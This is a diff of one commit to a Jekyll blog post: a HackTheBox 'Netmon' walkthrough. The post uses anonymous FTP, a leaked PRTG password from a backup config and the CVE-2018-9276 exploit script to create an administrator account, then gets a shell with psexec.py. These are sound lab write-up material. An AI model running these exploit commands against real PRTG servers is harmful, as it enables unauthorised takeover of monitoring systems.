

Before and after one commit to firatfolcay/arszilla.github.io, a Jekyll site: the page built from _posts/2019-07-01-htb-netmon.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4622 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated Netmon

````diff
--- a/_posts/2019-07-01-htb-netmon.markdown
+++ b/_posts/2019-07-01-htb-netmon.markdown
@@ -7,10 +7,8 @@
 ---
 
 ## Information
-Netmon is an easy Windows box that is available on HackTheBox that aims to RCE via Powershell on a PRTG Network
-Monitor. This machine has several possible solutions; from a reverse shell to a Powershell code execution from PRTG
-Network Monitor itself. I've solved the root with `CVE-2018-9276`; an authenticated remote code execution, to solve the
-box.
+Netmon is a Windows box that is on HackTheBox. This machine has several ways to achieve the given secondary task; from
+a reverse shell to a Powershell RCE within PRTG Network Monitor.
 
 ## Tasks
 - Find the user password
@@ -19,15 +17,8 @@
 ## Summary
 - Use `nmap` to see the services
 - Use `ncftp` to navigate through its `FTP`
-- Login to the PRTG Network Manager panel
-- Use `CVE-2018-9276` to create a new administrator in the system
-- Get shell via `psexec.py`
-
-## Tools Used
-- `nmap`
-- `ncftp`
-- `searchsploit`
-- `psexec.py`
+- Login to the PRTG Network Manager panel to use `CVE-2018-9276` to create a new administrator in the system
+- Login to the system with the new credentials via `psexec.py`
 
 ## Walkthrough
 ### nmap
@@ -35,9 +26,6 @@
 
 ```
 $ nmap -sC -sV 10.10.10.152
-
-[...]
-
 PORT    STATE SERVICE      VERSION
 21/tcp  open  ftp          Microsoft ftpd
 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
@@ -59,16 +47,17 @@
 139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
 445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
 Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
-
-[...]
 ```
 
-The scan tells us that there is `HTTP` on Port 80 and `FTP` on Port 21 which we can login to it anonymously.
+The scan tells us that there is `HTTP` on Port 80 with PRTG Network Monitor installed on it and `FTP` on Port 21
+which we can login to it anonymously.
 
 ### User Flag
 Let's take a look at the `FTP` by logging in anonymously.
 
 ```
+$ ncftp 10.10.10.152
+
 ncftp / > ls -la
 02-03-19  12:18AM                 1024 .rnd
 02-25-19  10:15PM       <DIR>          inetpub
@@ -79,6 +68,7 @@
 02-25-19  11:49PM       <DIR>          Windows
 
 ncftp / > cd Users/
+
 ncftp /Users > ls -la
 02-25-19  11:44PM       <DIR>          Administrator
 02-03-19  12:35AM       <DIR>          Public
@@ -97,11 +87,11 @@
 dd58ce67b49e15105e88096c8d9255a5
 ```
 
-The user flag was stored in `C:/Users/Public` in `user.txt`; where it was accessible to everyone to see.
+Thus we've captured the user flag with relative ease.
 
 ### Root Flag
 #### Logging in to PRTG Network Monitor
-Taking a look at the `HTTP` service, we are greeted with a login page for PRTG Network Monitor.
+Taking a look at the `HTTP` service, we're greeted with a login page for PRTG Network Monitor.
 
 ![PRTG Mainscreen][PRTG Mainscreen]
 
@@ -150,7 +140,7 @@
 
 Taking a look at `PRTG Configuration.dat` didn't reveal as much as expected since it had the password encrypted/hashed.
 
-```
+```html
 <login>
     prtgadmin
 </login>
@@ -176,37 +166,35 @@
 `PRTG Configuration.old` was similar to `PRTG Configuration.dat`, but `PRTG Configuration.old.bak` wasn't like the rest.
 The data on it was readable, most notably `<dbpassword>` segment which had a username and a password; `PrTg@dmin2018`.
 
-```
+```html
 <dbpassword>
     <!-- User: prtgadmin -->
     PrTg@dmin2018
 </dbpassword>
 ```
 
-Trying to login using this password didn't work. Since it is a year old backup, changing `PrTg@dmin2018`'s 8 to a 9
-trying again worked, granting us access to the PRTG Network Manager panel.
+Trying to login using this password doesn't work. Since it's a year old backup, changing `PrTg@dmin2018`'s 8 to a 9
+and then trying again works, granting us access to the PRTG Network Manager panel.
 
 ![PRTG Panel][PRTG Panel]
 
-#### CVE-2018-9276
+#### Exploiting PRTG
 At the very bottom of the PRTG Network Manager panel there is a version number; `18.1.37.13946`. Taking that to account,
-running `searchsploit PRTG` revealed several exploits; most notably an authenticated remote code execution for version
-`18.2.38`.
+running `searchsploit PRTG` reveals several exploits; most notably an authenticated remote code execution; or better
+known as `CVE-2018-9276`.
 
 ```
 $ searchsploit PRTG
-
 -------------------------------------------------------------------------------
 Exploit Title
 -------------------------------------------------------------------------------
-PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution
+PRTG Network Monitor < 18.2.38 - (Authenticated) Remote Code Execution
 PRTG Network Monitor < 18.1.39.1648 - Stack Overflow (Denial of Service)
 PRTG Traffic Grapher 6.2.1 - 'url' Cross-Site Scripting
 -------------------------------------------------------------------------------
 ```
 
-Taking a look at the actual code for the exploit over at [Github][Github] tells us that it works for `< 18.2.39`, while
-[Exploit-DB][Exploit-DB] tells us how to use the exploit.
+Taking a look at [Exploit-DB][Exploit-DB] tells us how to use the exploit.
 
 ```
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
@@ -221,25 +209,6 @@
 $ sed -i -e 's/\r$//' 46527
 
 $ ./46527 -u http://10.10.10.152 -c "OCTOPUS1813713946=ezk4RkMxM0M4LTkxMzYtNEVDOS1CODgwLTc4OUY5QjJERjJFN30%3D; _gat=1"
-
-[+]#########################################################################[+]
-[*] Authenticated PRTG Network Monitor remote code execution                [*]
-[+]#########################################################################[+]
-[*] Date: 11/03/2019                                                        [*]
-[+]#########################################################################[+]
-[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*]
-[+]#########################################################################[+]
-[*] Vendor Homepage: https://www.paessler.com/prtg                          [*]
-[*] Version: 18.2.38                                                        [*]
-[*] CVE: CVE-2018-9276                                                      [*]
-[*] Reference: https://www.codewatch.org/blog/?p=453                        [*]
-[+]#########################################################################[+]
-
-# login to the app, default creds are prtgadmin/prtgadmin. once authenticated grab your cookie and use it with the script.
-# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'
-
-[+]#########################################################################[+]
-
 [*] file created
 [*] sending notification wait....
 
@@ -258,26 +227,9 @@
 ```
 $ /usr/share/doc/python-impacket/examples/psexec.py pentest:'P3nT3st!'@10.10.10.152
 
-Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation
-
-[*] Requesting shares on 10.10.10.152.....
-[*] Found writable share ADMIN$
-[*] Uploading file ySyxZytT.exe
-[*] Opening SVCManager on 10.10.10.152.....
-[*] Creating service Sjns on 10.10.10.152.....
-[*] Starting service Sjns.....
-[!] Press help for extra shell commands
-Microsoft Windows [Version 10.0.14393]
-(c) 2016 Microsoft Corporation. All rights reserved.
-
 C:\Windows\system32> cd C:\Users\Administrator\
 
 C:\Users\Administrator> dir
-Volume in drive C has no label.
-Volume Serial Number is 684B-9CE8
-
-Directory of C:\Users\Administrator
-
 02/25/2019  11:58 PM    <DIR>          .
 02/25/2019  11:58 PM    <DIR>          ..
 02/03/2019  08:08 AM    <DIR>          Contacts
@@ -291,28 +243,20 @@
 02/03/2019  08:08 AM    <DIR>          Saved Games
 02/03/2019  08:08 AM    <DIR>          Searches
 02/25/2019  11:06 PM    <DIR>          Videos
-               0 File(s)              0 bytes
-              13 Dir(s)  11,884,199,936 bytes free
 
 C:\Users\Administrator> cd Desktop
 
 C:\Users\Administrator\Desktop> dir
-Volume in drive C has no label.
-Volume Serial Number is 684B-9CE8
-
-Directory of C:\Users\Administrator\Desktop
-
 02/03/2019  12:35 AM    <DIR>          .
 02/03/2019  12:35 AM    <DIR>          ..
 02/03/2019  12:35 AM                33 root.txt
-               1 File(s)             33 bytes
-               2 Dir(s)  11,884,199,936 bytes free
 
 C:\Users\Administrator\Desktop> type root.txt
 3018977fb944bf1878f75b879fba67cc
 ```
 
-[PRTG Mainscreen]:      /images/posts/2019-07-01-htb-netmon/PRTG%20Mainscreen.png
-[PRTG Panel]:           /images/posts/2019-07-01-htb-netmon/PRTG%20Panel.png
-[Github]:               https://github.com/M4LV0/PRTG-Network-Monitor-RCE
-[Exploit-DB]:           https://www.exploit-db.com/exploits/46527
+Thus, we've captured the root flag.
+
+[PRTG Mainscreen]:  /images/posts/2019-07-01-htb-netmon/PRTG%20Mainscreen.png
+[PRTG Panel]:       /images/posts/2019-07-01-htb-netmon/PRTG%20Panel.png
+[Exploit-DB]:       https://www.exploit-db.com/exploits/46527
````
